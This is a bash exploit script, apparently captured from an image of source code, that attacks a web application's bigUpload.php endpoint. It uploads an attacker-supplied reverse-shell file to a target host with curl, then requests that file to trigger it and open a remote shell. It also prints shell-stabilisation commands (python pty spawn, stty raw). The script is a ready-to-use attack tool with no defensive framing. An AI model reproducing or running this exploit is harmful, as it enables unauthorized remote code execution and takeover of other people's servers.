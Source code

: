 ```bash
GREEN='\033[0;32m'
NC='\033[0m'


# Usage function to display script usage
usage() {
    echo -e "${GREEN}"
    echo "Usage: $0 -f reverse_file -h host_link -p port_in_the_reverse_file"
    echo -e "${NC}"
    echo "Options:"
    echo "  -f    Path to the reverse file"
    echo "  -h    Host link where the file will be uploaded"
    echo "  -p    Port for the reverse shell"
    exit 1
}

# Parse command-line options
while getopts "f:h:p:" opt; do
    case $opt in
        f)
            reverse_file=$OPTARG
            ;;
        h)
            host_link=$OPTARG
            ;;
        p)
            port=$OPTARG
            ;;
        \?)
            echo -e "${RED}"
            echo "Invalid option: -$OPTARG" >&2
            usage
            ;;
        :)
	    echo -e "${RED}"
            echo "Option -$OPTARG requires an argument." >&2
            usage
            ;;
    esac
done

# Check if all required options are provided
if [ -z "$reverse_file" ] || [ -z "$host_link" ] || [ -z "$port" ]; then
    echo -e  "${RED}"
    echo "All options -f, -h, and -p are required."
    usage
fi
# Perform the file upload using curl
echo -e "${GREEN}" 
curl -F "bigUploadFile=@$reverse_file" "$host_link/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported"
echo
echo
echo -e "#    Use This leter For Interactive TTY ;) " "${RED}"
echo "#    python3 -c 'import pty;pty.spawn(\"/bin/bash\")'"
echo "#    export TERM=xterm"
echo "#    CTRL + Z"
echo "#    stty raw -echo; fg"
echo -e "${GREEN}"
echo "# Starting Reverse Shell On Port $port . . . . . . ."
sleep 3
curl "$host_link/main/inc/lib/javascript/bigupload/files/$reverse_file" &
echo -e  "${NC}"
```